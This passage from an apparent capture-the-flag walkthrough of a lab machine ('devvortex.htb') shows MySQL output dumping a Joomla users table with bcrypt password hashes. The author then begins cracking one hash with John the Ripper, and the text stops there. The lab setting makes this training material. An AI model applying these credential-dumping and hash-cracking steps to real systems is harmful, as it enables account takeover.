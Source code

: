 ```
| sd4fg_user_profiles           |  
| sd4fg_user_usergroup_map      |  
| sd4fg_usergroups              |  
| sd4fg_users                   |  
| sd4fg_viewlevels              |  
| sd4fg_webauthn_credentials    |  
| sd4fg_workflow_associations   |  
| sd4fg_workflow_stages         |  
| sd4fg_workflow_transitions    |  
| sd4fg_workflows               |  
+-------------------------------+  
71 rows in set (0.00 sec)  
  
mysql> select * from sd4fg_users;  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-26 13:51:53 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |  
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |  
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+  
2 rows in set (0.00 sec)
```

In the users' table, I found another user, logan, with a BCrypt hashed password. To crack this hash, I created a file named hash.txt, placed the hash inside, and initiated the attack using John the Ripper:

